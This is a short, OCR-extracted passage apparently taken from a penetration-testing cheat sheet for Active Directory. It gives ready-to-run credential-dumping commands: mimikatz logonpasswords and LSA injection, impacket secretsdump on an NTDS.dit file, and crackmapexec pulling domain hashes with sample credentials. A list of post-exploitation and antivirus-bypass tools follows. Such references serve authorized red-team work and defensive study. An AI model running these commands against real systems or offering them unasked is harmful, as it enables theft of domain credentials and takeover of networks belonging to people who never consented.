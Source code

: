 sekurlsa::logonpasswords

### NTDS.dit dump
secretsdump.py -system /tmp/SYSTEM -ntds /tmp/ntds.dit -outputfile /tmp/result local
python crackmapexec.py 192.168.1.56 -u morph3 -p pass1234 -d evilcorp.com --ntds drsuapi
# on DC, lsass.exe can dump hashes
lsadump::lsa /inject


Summary of tools
Ad Environment
icebreaker bloodhound adfly

Post Exploitation
Empire DeathStar CrackMapExec - CME Covenant Rubeus SharpDPAPI

ByPass
Ebowla Veil-Framework PsBypassCLM invoke-metasploit

Swiss Knife
impacket

0xsp mongoose